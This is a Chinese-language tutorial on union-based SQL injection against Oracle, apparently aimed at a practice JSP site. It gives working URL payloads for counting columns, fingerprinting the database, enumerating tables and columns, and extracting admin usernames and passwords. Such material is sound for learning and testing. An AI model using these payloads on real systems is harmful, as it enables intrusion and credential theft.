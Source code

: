## 1、注释符号

-- 空格 单行注释
/* */ 多行注释

## 2、判断是否注入

and 1=1 -- 
and 1=2 -- 

## 3、列数

```http
http://www.jsporcle.com/a.jsp?username=SMITH' order by 8 --
```

## 4、联合查询**

因为oracle 对列的类型比较严谨 所以 要用null 可以匹配任意类型
Oracle中的dual表是一个单行单列的虚拟表
Dual 是 Oracle中的一个实际存在的表，任何用户均可读取。
所以可以通过这个dual表来显示列数。

```http
http://www.jsporcle.com/a.jsp?username=SMITH' union select null,null,null,null,null,null,null,null from dual -- 
```

## **5、获取Oracle信息**

oracle 版本信息

```http
http://www.jsporcle.com/a.jsp?username=SMITH' union select null,null,(select banner from sys.v_$version where rownum=1),null,null,null,null,null from dual --
```

![image-20210408211735819](../../acess/image-20210408211735819.png) 

- 当前用户权限 （select * from session_roles）
- 当前数据库版本 （ select banner from sys.v_$version where rownum=1）
- 服务器出口IP (用utl_http.request 可以实现)
- 服务器监听IP (select utl_inaddr.get_host_address from dual)
- 服务器操作系统 （select member from v$logfile where rownum=1）
- 服务器sid (select instance_name from v$instance)
- 当前连接用户 (select SYS_CONTEXT ('USERENV', 'CURRENT_USER') from dual)
- 当前用户 (SELECT user FROM dual)

## 6、查询库名

```http
http://www.jsporcle.com/a.jsp?username=99' union select null,null,(select owner from all_tables where rownum=1),null,null,null,null,null from dual --
http://www.jsporcle.com/a.jsp?username=99' union select null,null,(select owner from all_tables where rownum=1 and owner <>'SYS' ),null,null,null,null,null from dual --
```

## 7、查询表

库表一定要是大写,查询第一个表

```http
http://www.jsporcle.com/a.jsp?username=SMITH' union select null,null,(select table_name from user_tables where rownum=1),null,null,null,null,null from dual --
```

![image-20210408211811851](../../acess/image-20210408211811851.png) 

查询第二个表

```http
http://www.jsporcle.com/a.jsp?username=SMITH' union select null,null,(select table_name from user_tables where rownum=1 and table_name<>'ADMIN'),null,null,null,null,null from dual -- 
```

## 8、查询列

查询 表 ADMIN第一个列

```http
http://www.jsporcle.com/a.jsp?username=SMITH' union select null,(select column_name from user_tab_columns where table_name='ADMIN' and rownum=1),null,null,null,null,null,null from dual -- 
```

第二个列

```http
http://www.jsporcle.com/a.jsp?username=SMITH' union select null,(select column_name from user_tab_columns where table_name='ADMIN' and column_name<>'ID' and rownum=1),null,null,null,null,null,null from dual -- 
```

查询表ADMIN 第三个列

```http
http://www.jsporcle.com/a.jsp?username=SMITH' union select null,(select column_name from user_tab_columns where table_name='ADMIN' and column_name<>'ID' and column_name<>'USERNAME' and rownum=1),null,null,null,null,null,null from dual -- 
```

ID USERNAME PASSWORD 

## 9、查询数据

```http
http://www.jsporcle.com/a.jsp?username=SMITH' union select null,(SELECT CONCAT(USERNAME,PASSWORD) FROM ADMIN),null,null,null,null,null,null from dual --
```

![image-20210408211843479](../../acess/image-20210408211843479.png) 

## 10、扩展

当前用户：

```sql
SELECT user FROM dual;
```

列出所有用户：

```sql
SELECT username FROM all_users ORDER BY username;
```

列出数据库

```sql
SELECT DISTINCT owner FROM all_tables;
```

列出表名：

```sql
SELECT table_name FROM all_tables;
SELECT owner, table_name FROM all_tables;
```

查询表所有列

```sql
SELECT column_name FROM all_tab_columns WHERE TABLE_NAME='ADMIN';
```

定位文件

```sql
SELECT name FROM V$DATAFILE;
```

